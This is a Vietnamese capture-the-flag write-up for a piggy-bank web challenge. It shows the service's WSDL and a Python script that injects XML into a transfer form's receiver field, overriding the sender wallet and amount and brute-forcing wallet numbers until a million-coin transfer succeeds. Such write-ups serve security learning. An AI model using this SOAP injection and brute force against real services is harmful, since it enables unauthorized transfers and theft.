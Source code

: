 
URL:  http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/</br>
</br>
Đầu tiên ta cần tạo một tài khoảng và login vào</br>
Tại VIP : `"This section is available only to privileged pigs with money in pockets. Transfer to the piggy-bank 1 000 000 coins and become important."`</br>
![1](https://user-images.githubusercontent.com/23306492/43188979-b23d15d4-901f-11e8-9dac-2090b0566b3f.png)</br>
Trong khi ta chỉ có `110 `</br>
![2](https://user-images.githubusercontent.com/23306492/43189089-fc26109c-901f-11e8-880e-0d993ad51eaa.png)</br>
Tại tab `For Developers` ta thấy `<!-- Link to the API (http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.wsdl.php) (Testing stage) -->`</br>
**bankservice.wsdl.php**</br>
```
<wsdl:definitions name="Bank" targetNamespace="urn:Bank">
<message name="BalanceRequest">
	<part name="wallet_num" type="xsd:decimal"/>
</message>
<message name="BalanceResponse">
	<part name="code" type="xsd:float"/>
	<part name="status" type="xsd:string"/>
</message>
<message name="internalTransferRequest">
	<part name="receiver_wallet_num" type="xsd:decimal"/>
	<part name="sender_wallet_num" type="xsd:decimal"/>
	<part name="amount" type="xsd:float"/>
	<part name="token" type="xsd:string"/>
</message>
<message name="internalTransferResponse">
	<part name="code" type="xsd:float"/>
	<part name="status" type="xsd:string"/>
</message>
<portType name="BankServicePort">
	<operation name="requestBalance">
		<input message="tns:BalanceRequest"/>
		<output message="tns:BalanceResponse"/>
	</operation><operation name="internalTransfer">
		<input message="tns:internalTransferRequest"/>
		<output message="tns:internalTransferResponse"/>
	</operation>
</portType>
<binding name="BankServiceBinding" type="tns:BankServicePort">
	<soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
	<operation name="requestBalance">
		<soap:operation soapAction="urn:requestBalanceAction"/>
		<input><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
		<output><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
	</operation>
	<operation name="internalTransfer">
		<soap:operation soapAction="urn:internalTransferAction"/>
		<input><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
		<output><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
	</operation>
</binding>
<wsdl:service name="BankService">
<wsdl:port name="BankServicePort" binding="tns:BankServiceBinding">
<soap:address location="http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.php"/>
</wsdl:port>
</wsdl:service>
</wsdl:definitions>
```
Sử dụng Wsdler </br>
![6](https://user-images.githubusercontent.com/23306492/43189565-0bbb77e4-9021-11e8-8fdf-9e07d176ae35.png)</br>
Sử dụng SOAP INJECTION VULNERABILITY để tấn công http://riseandhack.blogspot.com/2015/02/xml-injection-soap-injection-notes.html
```
import requests
url1 = "http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/auth.php"
url2 = "http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/home/transfer.php"
s = requests.session()
s.get(url1,params={"login":"k4k4","password":"k4k4"})
for i in range(1000,10000):
	print i
	payload = {	"receiver":'1405</receiver_wallet_num><sender_wallet_num xsi:type="xsd:decimal">'+str(i)+'</sender_wallet_num><amount>1000000<!--',
			"amount":"-->"
		}
	r = s.post(url2,data=payload)
	msg = r.text
	if "Successful" in msg:
		print "ok"
		break
```
![8](https://user-images.githubusercontent.com/23306492/43189896-f0e7aef0-9021-11e8-9c4b-6c8e1a6331a3.png)</br>
![9](https://user-images.githubusercontent.com/23306492/43189915-fe30e32e-9021-11e8-9524-e2fb098652e9.png)</br>

